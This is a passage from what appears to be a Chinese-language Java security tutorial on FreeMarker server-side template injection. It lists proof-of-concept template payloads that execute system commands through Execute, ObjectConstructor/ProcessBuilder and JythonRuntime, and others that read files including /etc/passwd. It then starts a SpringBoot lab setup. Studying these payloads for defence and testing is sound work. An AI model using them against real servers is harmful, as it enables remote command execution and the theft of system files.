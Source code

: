 **POC**  
命令执行：

```plain
<#assign classLoader=object?api.class.protectionDomain.classLoader> 
<#assign clazz=classLoader.loadClass("ClassExposingGSON")> 
<#assign field=clazz?api.getField("GSON")> 
<#assign gson=field?api.get(null)> 
<#assign ex=gson?api.fromJson("{}", classLoader.loadClass("freemarker.template.utility.Execute"))> 
${ex("open -a Calculator.app"")}
```

```plain
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","whoami").start()}
```

```plain
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")
```

```plain
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("open -a Calculator.app") }
```

文件读取：

```plain
<#assign is=object?api.class.getResourceAsStream("/Test.class")>
FILE:[<#list 0..999999999 as _>
    <#assign byte=is.read()>
    <#if byte == -1>
        <#break>
    </#if>
${byte}, </#list>]
```

```plain
<#assign uri=object?api.class.getResource("/").toURI()>
<#assign input=uri?api.create("file:///etc/passwd").toURL().openConnection()>
<#assign is=input?api.getInputStream()>
FILE:[<#list 0..999999999 as _>
    <#assign byte=is.read()>
    <#if byte == -1>
        <#break>
    </#if>
${byte}, </#list>]
```

### 2.3 简单例子

第一：创建SpringBoot项目javasec-ssti  
第二：导入FreeMarker依赖

```plain
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-freemarker</artifactId>
</dependency>
```
